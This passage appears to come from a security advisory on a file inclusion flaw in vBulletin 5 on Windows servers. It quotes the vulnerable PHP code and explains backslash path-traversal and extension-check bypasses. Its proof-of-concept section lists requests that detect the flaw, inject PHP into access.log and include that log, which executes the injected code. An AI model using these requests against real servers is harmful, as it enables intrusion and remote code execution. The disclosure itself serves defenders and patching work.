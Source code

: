 If we will check relay() from Api_Interface_Collapsed class – /include/api/interface/collapsed.php:

```
/* 117 */   public function relay($file)
/* 118 */   {
/* 119 */      $filePath = vB5_Config::instance()->core_path . '/' . $file;
/* 120 */      
/* 121 */      if ($file AND file_exists($filePath))
/* 122 */      {
/* 123 */         //hack because the admincp/modcp files won't return so the remaining processing in
/* 124 */         //index.php won't take place.  If we better integrate the admincp into the
/* 125 */         //frontend, we can (and should) remove this.
/* 126 */         vB_Shutdown::instance()->add(array('vB5_Frontend_ExplainQueries', 'finish'));
/* 127 */         require_once($filePath);
/* 128 */      }
/* ... */
```

As we could see an attacker is not able to use ‘/’ in the $file so he cannot change current directory on Linux. But for Windows he can use ‘\’ as path delimiter and is able to specify any desired file (he can use ‘\..\’ trick as well) and it will be included by php.

![](https://blogs.securiteam.com/wp-content/uploads/2017/12/vBulletin-125x300.jpg)

If we want to include file with extension like ‘.gif’, ‘.png’, ‘.jpg’, ‘.css’ or ‘.js’ we will need to bypass the mentioned check in setRoutes() method. This can be easily done by adding dot (‘.’) or space (‘%20’) to the filename.

## Proof of Concept
We can check if the server is vulnerable by sending the following GET request:

```
/index.php?routestring=.\\
```

If the response is:

![](https://blogs.securiteam.com/wp-content/uploads/2017/12/vBulletin-1-300x60.png)

The server is vulnerable.

If we want to inject a php code to any file on the server we can use the access.log for example:

```
/?LogINJ_START=<?php phpinfo();?>LogINJ_END
```

After that we can include access.log with our PHP code:

```
/index.php?routestring=\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\xampp\\apache\\logs\\access.log
```

![](https://blogs.securiteam.com/wp-content/uploads/2017/12/vBulletin-2-300x89.jpg)